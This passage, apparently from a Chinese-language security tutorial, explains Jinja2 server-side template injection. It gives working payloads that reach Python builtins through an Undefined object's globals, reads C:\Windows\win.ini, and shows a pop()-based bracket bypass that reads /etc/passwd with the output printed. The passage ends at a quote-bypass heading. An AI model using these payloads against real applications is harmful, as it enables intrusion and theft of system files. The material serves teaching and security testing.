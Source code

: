 3.既然这样的话我们就看下这个 c 对象的 init 函数到底是个啥？写个 payload 验证一下

```
name=\{\{().__class__.__base__.__subclasses__().c.__init__\}\}
```

![](640-1.png)

竟然是一个 Undefined 类型，也就是说如果碰到未定义的变量就会返回为 Undefined 类型，而 Python 官方库是没有这个类型的，也就是说明这个 Undefined 是 jinja2 框架提供的，我们在 jinja2 框架的源码中搜寻，最后在 runtime.py 中找到了 Undefined 这个 class：

![](640-2.png)

继承的是 object 类型，并且还有其他函数

4.那么这就好办了，既然都是 Undefined 那我随便定义一个未被定义过的变量也应该是 Undefined：

```
name=\{\{a.__init__\}\}
```

![](640-3.png)

既然 Undefined 类可以执行成功，那我们就可以看看他的全局 global 的内建模块中都包含什么了：

```
name=\{\{a.__init__.__globals__.__builtins__\}\}
```

![](640-4.png)

还是可以看到几个敏感函数 eval、open 等等，应有尽有,那这是不是以后碰到 jinja2 框架的时候就异常轻松啦

5.展示一下

```
\{\{a.__init__.__globals__.__builtins__.open("C:\Windows\win.ini").read()\}\}
```

![](640-5.png)

- **一些绕过方式**

  1.绕过中括号

pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值

```
>>> ''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()

'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/sp
```

在这里使用 pop 并不会真的移除,但却能返回其值,取代中括号,来实现绕过

2.绕过引号
